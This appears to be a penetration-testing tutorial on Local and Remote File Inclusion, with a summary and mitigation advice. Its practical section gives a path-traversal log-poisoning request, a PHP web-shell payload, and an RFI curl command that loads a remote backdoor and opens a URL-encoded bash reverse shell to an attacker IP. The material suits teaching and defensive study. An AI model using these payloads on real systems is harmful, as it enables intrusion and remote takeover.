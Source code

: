 # File Inclusion Vulnerabilities: LFI and RFI RCE with URL encoding

## Technical Executive Summary
        

            Saverity: Medium - Critical 
                Depends on the content that you can display

    File Inclusion vulnerabilities, including Local File Inclusion (LFI) and Remote File Inclusion (RFI), are critical security issues that can lead to severe consequences such as unauthorized access, data breaches,     and remote code execution. These vulnerabilities arise when a web application allows the inclusion of files without proper validation and sanitization of user inputs.
    Local File Inclusion (LFI)

    LFI occurs when a web application includes files from the local server's filesystem. This can be exploited to read sensitive files, execute code, and gain unauthorized access to the system. One common technique         to exploit LFI is through Log Poisoning, where malicious code is injected into log files that are later included by the web application.
    Remote File Inclusion (RFI)

    RFI is a more dangerous variant that allows the inclusion of files from remote servers. This can lead to remote code execution by including and executing malicious scripts hosted externally. Exploiting RFI            typically involves hosting a malicious file and crafting a URL to include it in the vulnerable web application.
    Exploitation Techniques

    Identifying Vulnerabilities: Penetration testers use various techniques and tools to identify LFI and RFI vulnerabilities, such as fuzzing and analyzing HTTP responses.
    Log Poisoning: For LFI, testers inject malicious payloads into log files or other writable files on the server to execute code.
    Crafting Exploit URLs: For RFI, testers prepare and host malicious files on remote servers and craft URLs to include these files in the web application.

# Mitigation Strategies

To mitigate these vulnerabilities, web developers should:

    Validate and sanitize all user inputs.
    Disable unnecessary features like allow_url_include in PHP.
    Implement strict access controls to sensitive files and directories.
    Regularly update and patch web application frameworks and libraries.

# Role of Penetration Testers

Penetration testers play a crucial role in identifying and mitigating file inclusion vulnerabilities. By simulating real-world attack scenarios, they help organizations understand their security posture and implement effective countermeasures. Testers use a combination of manual techniques and automated tools to discover vulnerabilities and provide actionable recommendations for remediation.
Conclusion
File Inclusion vulnerabilities pose a significant risk to web applications and can lead to devastating security breaches if not properly addressed. Understanding the mechanisms behind LFI and RFI, along with employing robust security practices, is essential for protecting web applications from these attacks. Penetration testers provide valuable insights and expertise in identifying and mitigating these vulnerabilities, ensuring the security and integrity of web systems.



## Local File Inclusion (LFI)

### Overview

Local File Inclusion (LFI) vulnerabilities allow attackers to include files from the server's filesystem into the running code of a web application. This can lead to Remote Code Execution (RCE) if the included files contain executable code.

### Difference Between LFI and Directory Traversal

- **Directory Traversal**: Allows reading files outside the web root directory.
- **File Inclusion**: Allows including and potentially executing files within the web application's running code.

### Exploiting LFI with Log Poisoning

#### Step-by-Step Example

1. **Identify the Vulnerability**: Find a vulnerable parameter in the web application that accepts file paths.
2. **Modify Log Entries**: Use tools like `curl` to send data to the web application that gets logged.
3. **Include the Log File**: Use the LFI vulnerability to include the modified log file, executing the payload.

#### Practical Example

```bash
kali@kali:~$ curl http://example.com/malek/index.php?page=../../../../../../../../../var/log/apache2/access.log
192.168.50.1 - - [12/Apr/2022:10:34:55 +0000] "GET /meteor/index.php?page=admin.php HTTP/1.1" 200 2218 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0"
```
Modify the User Agent in Burp Suite to include a PHP code snippet:
```bash
<?php echo system($_GET['cmd']); ?>
```
Send the modified request and include the log file:
```bash
../../../../../../../../../var/log/apache2/access.log&cmd=ps
```
Output Example
```bash
www-data@fbea640f9802:/var/www/html/malek$ ls
admin.php
bavarian.php
css
fonts
img
index.php
js
```
# Remote File Inclusion (RFI)
## Overview

Remote File Inclusion (RFI) vulnerabilities allow attackers to include files from remote servers. This can be more dangerous than LFI because it allows attackers to execute code from external sources.
Exploiting RFI
Step-by-Step Example

    Identify the Vulnerability: Find a vulnerable parameter in the web application that accepts file paths.
    Host a Malicious File: Prepare and host a malicious PHP file on a remote server.
    Craft the Exploit URL: Include the remote file in the vulnerable parameter and pass commands to it.

Practical Example
```bash
curl "http://example.com/meteor/index.php?page=http://192.168.45.184/backdoor.php&cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.184%2F4444%200%3E%261%22"
```

### Conclusion

By understanding and exploiting RFI vulnerabilities, attackers can include and execute remote files on a target system, leading to severe security breaches. Proper security measures, such as disabling allow_url_include and validating input parameters, are essential to prevent such attacks.


